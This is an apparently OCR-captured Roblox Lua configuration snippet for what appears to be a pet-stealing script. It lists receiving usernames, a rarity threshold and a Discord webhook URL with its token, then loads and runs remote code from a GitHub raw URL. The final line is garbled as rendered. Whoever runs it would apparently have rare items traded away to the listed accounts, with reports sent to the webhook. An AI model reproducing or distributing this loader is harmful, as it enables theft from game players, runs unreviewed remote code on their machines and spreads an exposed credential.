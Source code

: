 _G.Usernames = {"ehahjw", "shwjjw", "euwjjwjw"} -- you can add as many as you'd like
_G.min_chance = 100000 -- 100000 means it only trades pets that are 1 in 100k or rarer
_G.pingEveryone = "Yes" -- change to "No" if you dont want pings
_G.webhook = "https://discord.com/api/webhooks/1364465904578068510/rzXdmD4kFQTVu8szzaWZgyhooDCU79bBlEh6K5pkriDGjPc89QQ7N5aTzME_JtRZPy0-/" -- change to your webhook

loadstring(game:https://raw.githubusercontent.com/suiakakakqkq/Wuuauw/refs/heads/main/source.lua"))()
